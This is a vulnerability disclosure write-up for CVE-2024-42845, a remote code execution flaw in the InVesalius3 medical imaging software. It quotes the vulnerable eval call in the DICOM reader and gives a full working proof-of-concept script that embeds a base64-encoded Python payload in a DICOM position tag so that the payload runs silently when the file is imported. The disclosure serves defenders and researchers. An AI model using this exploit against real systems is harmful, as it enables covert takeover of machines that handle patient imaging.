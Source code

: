 # CVE-2024-42845

## Invesalius3 - Context Overview

[Invesalius](https://invesalius.github.io/) is an open source software for reconstruction of computed tomography and magnetic ressonance images available for Windows, GNU/Linux and Apple Mac OS X platforms.

<figure><img src="../../.gitbook/assets/invesalius.png" alt=""><figcaption><p>Invesalius3</p></figcaption></figure>

You can find more info about this 3D medical imaging reconstruction software at the following links:

* [https://github.com/invesalius/invesalius3](https://github.com/invesalius/invesalius3)
* [https://invesalius.github.io/about.html](https://invesalius.github.io/about.html)

***

### What is a DICOM file and how to edit them

DICOM is a standard file format widely used worldwide to store, exchange, and transmit medical images. DICOM files typically have the `.dcm` extension added to them.

DICOM files are central to the development of modern radiological imaging, as they incorporate standards for imaging modalities such as radiography, ultrasonography, computed tomography, magnetic resonance imaging, and radiation therapy.

This complex standard includes protocols for image exchange, image compression, 3D visualization, image presentation, and results reporting.

{% hint style="success" %}
To properly edit and view DICOM files, third-party softwares are necessary.

One recommended software is [MicroDicom](https://www.microdicom.com/).
{% endhint %}

***

## The Vulnerability

### Overview

A Remote Code Execution (RCE) vulnerability exists in the DICOM file import procedure in Invesalius3. This vulnerability afflicts all versions from 3.1.99991 to 3.1.99998.

The exploitation steps of this vulnerability involve the use of a crafted DICOM file which, once imported inside the victim's client application allows an attacker to gain remote code execution over the victim's machine.

{% hint style="info" %}
**Disclaimer:** I worked on this vulnerability with [partywave](https://www.partywave.site/list).

Check out his works as well!
{% endhint %}

### The vulnerable code

Invesalius3 versions from 3.1.99991 to 3.1.99998 (2nd latest available at the time of writing) contain the following vulnerable function inside the `invesalius/reader/dicom.py` script file.

```python
430    def GetImagePosition(self):
431     """
432     Return [x, y, z] (number list) related to coordinates
433     of the upper left corner voxel (first voxel transmitted).
434     This value is given in mm. Number might be floating point
435     or integer.
436     Return "" if field is not defined.
437
438     DICOM standard tag (0x0020, 0x0032) was used.
439     """
440     try:
441         data = self.data_image[str(0x020)][str(0x032)].replace(",", ".")
442     except KeyError:
443         return ""
444     if data:
445        return [eval(value) for value in data.split("\\")]
446        return ""
```

This function is triggered whenever a new DICOM file is imported.

In particular, the position of the imported image is calculated based on the coordinates contained in the image's position indexes in the tag at position `(0x020, 0x032)`.

{% hint style="info" %}
A DICOM object contains several attributes that can be referenced using several notations. In this specific case, the notation used is \[hex-n, hex-n] where hex-n is the hexadecimal representation of a numerical index.
{% endhint %}

The coordinates' values are separated from `\` characters.\
An example is the following: `5.1\4.3\3.2`.

Since the `eval` function is called for each value inside that range, where each value is taken by removing the `\` characters, an attacker might inject a malicious python payload after the last coordinate value (preceded by a `\` character) in order to cause the python code to be executed by the `eval` function.

Notice that any `,` character in the payload is going to be replaced with a `.` character, as `line 441` suggests:

```python
data = self.data_image[str(0x020)][str(0x032)].replace(",", ".")
```

***

### Proof of Concept (PoC)

As previously stated, since the payload undergoes several syntax checks that may cause its `,` characters to be replaced with `.` characters, the handiest solution is to append and decode a base64-encoded payload.&#x20;

The payload had to be injected inside a valid DICOM file. There are several free examples available online, the one that we decided to use is MrBrain, which you can find here: [Sample DICOM Files](https://www.rubomedical.com/dicom\_files/).

Finally, an interesting operational note is that, by adding the Python payload at the end of the actual DICOM coordinates, the payload will be executed by the application without causing the application to crash or have any unexpected behaviour, allowing the attack to be performed without any notice.

<figure><img src="../../.gitbook/assets/invesalius-rce.png" alt=""><figcaption><p>The proof of concept in action.</p></figcaption></figure>

The script below creates a specifically crafted DICOM payload for CVE-2024-42845.

{% hint style="success" %}
You can find the proof of concept code in my repository:\
[https://github.com/alessio-romano/Invesalius3\_CVE-2024-42845](https://github.com/alessio-romano/Invesalius3\_CVE-2024-42845)
{% endhint %}

Remote Code Execution is gained once the DICOM file is imported inside the victim's client application.

```python
import pydicom
import base64
import argparse

pydicom.config.settings.reading_validation_mode = pydicom.config.IGNORE


def encode_payload(plain_payload):
    data = open(plain_payload, 'rb').read()
    return f"exec(__import__('base64').b64decode({base64.b64encode(data)})"

def prepare_dicom_payload(dicom_file_path, payload):
    try:
        dicom_data = pydicom.dcmread(dicom_file_path)

        values = dicom_data[0x0020, 0x0032].value
        mal = [str(i) for i in values]
        mal.append(encode_payload(payload))
        
    except pydicom.errors.InvalidDicomError:
        print("The file is not a valid DICOM file.")
    except Exception as e:
        print(f"An error occurred: {e}")
    
    return mal


def modify_dicom_field(dicom_file_path, malicious_tag, outfile, sign):
    try:
        dicom_dataset = pydicom.dcmread(dicom_file_path)
        if sign:
            dicom_dataset.Manufacturer = "Malicious DICOM file creator"
            dicom_dataset.InstitutionName = "Malicious DICOM file institution"
        elem =  pydicom.dataelem.DataElement(0x00200032, 'CS', malicious_tag)
        dicom_dataset[0x00200032] = elem
        print(dicom_dataset)
        dicom_dataset.save_as(outfile)
    except Exception as e:
        print(f"An error occurred: {e}")


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Read a DICOM file.')
    parser.add_argument('--dicom', required=True, help='Path to the input DICOM file')
    parser.add_argument('--outfile', required=True, help='Path to the output DICOM file')
    parser.add_argument('--payload', required=False, default=b"print('Test')", help='File that contains the malicious plain python3 code')
    parser.add_argument('--signature', required=False, default=True)
    
    args = parser.parse_args()
    dicom_infile_path = args.dicom
    dicom_outfile_path = args.outfile
    print(args.signature)
    
    tmp_tag = prepare_dicom_payload(dicom_infile_path, payload=args.payload)
    if tmp_tag:
        malicious_tag = '\\'.join(tmp_tag)

        modify_dicom_field(dicom_infile_path, malicious_tag, dicom_outfile_path, sign=args.signature)
        exit(0)
    else:
        exit(1)
```

***

## References

* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-42845](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-42845)
* [https://github.com/alessio-romano/Invesalius3\_CVE-2024-42845](https://github.com/alessio-romano/Invesalius3\_CVE-2024-42845)
* [https://www.exploit-db.com/exploits/52076](https://www.exploit-db.com/exploits/52076)
* [https://www.partywave.site/show/research/Tic%20TAC%20-%20Beware%20of%20your%20scan](https://www.partywave.site/show/research/Tic%20TAC%20-%20Beware%20of%20your%20scan)
